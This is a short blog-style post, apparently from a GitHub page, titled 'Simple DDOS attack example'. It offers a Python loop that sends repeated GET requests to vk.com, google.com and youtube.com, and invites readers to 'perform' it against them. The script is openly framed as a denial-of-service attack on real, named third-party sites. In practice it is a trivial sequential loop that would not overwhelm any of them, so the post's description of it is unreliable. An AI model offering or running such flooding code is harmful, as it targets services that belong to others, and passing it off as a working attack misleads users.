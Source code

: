 ```yaml
---
title: "Simple DDOS attack example"
date: 2020-04-26
---
```


Here is my example of simple ddos attack that you can perform

DDOS attack code block in python:
```python
    import requests

    sites = ['https://vk.com', 'https://google.com', 'https://youtube.com']
    for site in sites:
        for i in range(100):
            r = requests.get(site)
            print(site, i, r.status_code)
```
